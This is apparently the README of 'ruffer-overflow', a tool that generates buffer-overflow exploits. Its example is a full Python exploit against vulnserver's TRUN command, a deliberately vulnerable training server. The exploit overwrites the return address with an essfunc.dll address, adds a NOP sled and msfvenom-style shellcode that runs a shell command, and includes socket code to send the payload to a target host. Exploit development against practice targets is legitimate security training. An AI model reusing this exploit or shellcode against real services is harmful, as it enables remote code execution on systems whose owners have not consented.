 # ruffer-overflow
buffer overflow detection and exploitation tool for VERY low hanging fruit 

----
### example (secureserverind.exe)
note: secureserverind.exe is actually from the [vulnserver project by stephenbradshaw](https://github.com/stephenbradshaw/vulnserver) 
this command line interaction generates a python file designed to exploit a buffer overflow
![example](/examples/secureserverind.exe/command_line_output.png)
``` python3
#!/usr/bin/python3

# generated by ruffer-overflow [2020-07-28 18:49:51.755495]

#region targeting
BASE_ADDRESS = "62501060" # base address of essfunc.dll
GENERATE_EXPLOIT_FILE = True
EXPLOIT_FILE = "exploit.bin"
EXECUTE_EXPLOIT = False
TARGET_ADDRESS = "192.168.150.245" # target host
TARGET_PORT = "9999" # exposed port on the target host
#endregion

#region imports
import struct
import socket
#endregion

#region payload
buf =  b''
buf += b'TRUN /.:/'
buf += b'A' * 2003
buf += struct.pack("<I", int(BASE_ADDRESS, 16)) # little endian pack
buf += b'\x90' * 10 # safety nops

# payload (easy swap from msfvenom)
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
buf += b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5"
buf += b"\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a"
buf += b"\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53"
buf += b"\xff\xd5\x65\x63\x68\x6f\x20\x22\x6e\x6f\x20\x73\x74"
buf += b"\x61\x6e\x64\x61\x72\x64\x73\x22\x20\x3e\x20\x63\x6f"
buf += b"\x6d\x70\x72\x6f\x6d\x69\x73\x65\x2e\x74\x78\x74\x00"
#endregion

#region generate file
if GENERATE_EXPLOIT_FILE:
    with open(EXPLOIT_FILE, "wb") as exploit_file:
        exploit_file.write(buf)
#endregion

#region execute
if EXECUTE_EXPLOIT:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TARGET_ADDRESS, TARGET_PORT))
    print(s.recv(2048))
    s.send(buf)
    print(s.recv(2048))
    s.close()
#endregion

```
